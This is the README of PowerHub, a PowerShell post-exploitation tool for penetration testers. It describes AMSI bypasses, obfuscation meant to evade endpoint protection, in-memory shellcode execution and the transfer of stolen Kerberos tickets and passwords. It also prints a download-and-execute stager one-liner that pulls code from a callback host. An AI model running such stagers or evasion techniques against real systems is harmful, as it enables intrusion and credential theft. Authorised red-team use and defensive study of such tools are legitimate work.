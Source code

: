 PowerHub
========

PowerHub is a convenient post exploitation tool for PowerShell which aids a
pentester in transferring data, in particular code which may get flagged by
endpoint protection. Check out the
[Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/)! Features:

* Fileless
* Stateless
* Cert pinning
* String "obfuscation" by RC4 encryption
* Choose your AMSI Bypass


![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

During an engagement where you have a test client available, one of the
first things you want to do is run PowerSploit. So you need to download the
files, messing with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```
PS C:\Users\avollmer> $K=new-object net.webclient;IEX $K.downloadstring('http://192.168.11.2:8080/0?t=http&f=r&a=reflection');
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
                            written by Adrian Vollmer, 2018-2019
Run 'Help-PowerHub' for help
PS C:\Users\avollmer> lhm powerview
Name                                Type N  Loaded
----                                ---- -  ------
ps1/PowerSploit/Recon/PowerView.ps1 ps1  29   True
PS C:\Users\avollmer> Get-LocalGroup | pth -Name groups.json
```


Installation
============

PowerHub itself does not need to be installed. Just execute `powerhub.py`.
However, there are a few dependencies. They are listed in the
[requirements.txt](https://github.com/AdrianVollmer/PowerHub/blob/master/requirements.txt).
Install them either via `pip3 install --user -r requirements.txt` or use a
virtual environment.

Python2 is not supported.

For building the payloads, you need the MinGW GCC and Mono C# compilers. On
Debian-like systems, you can install them with `apt-get install mono-mcs
gcc-mingw-w64-x86-64 gcc-mingw-w64-i686`.

venv
----

`venv` can be installed on Debian-like systems by `apt install
python3-venv`.

Run `python3 -m venv env` to create a virtual environment, then use `source
env/bin/activate` to activate it. Now run `pip3 install -r requirements.txt`
to install the depencendies inside the virtual environment.

pipenv
------

Alternatively, you can use `pipenv`. `pipenv` can be installed on
Debian-like systems by `apt install pipenv`.

Run `pipenv install` once in the PowerHub directory, then `pipenv shell` to
activate the virtual environment.


Usage
=====

PowerHub has one mandatory argument: the callback host (can be an IP
address). You should also use `--auth <user>:<pass>`, otherwise, a randomly
generated password will be used for basic authentication. The switch
`--no-auth` disables basic authentication which is *not recommended*. The
callback host name is used by the stager to download the payload. If the
callback port or path differ from the default, it can also be changed.

Read `./powerhub.py --help` and the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/Usage) for details.


Credits
=======

PowerHub is partially based on the awesome work of zc00l, @am0nsec, mar10,
p3nt4, @SkelSec. And of course, it would be nothing without @harmj0y,
@mattifestation and the many other contributors to
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author
======

Adrian Vollmer, 2018-2020

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
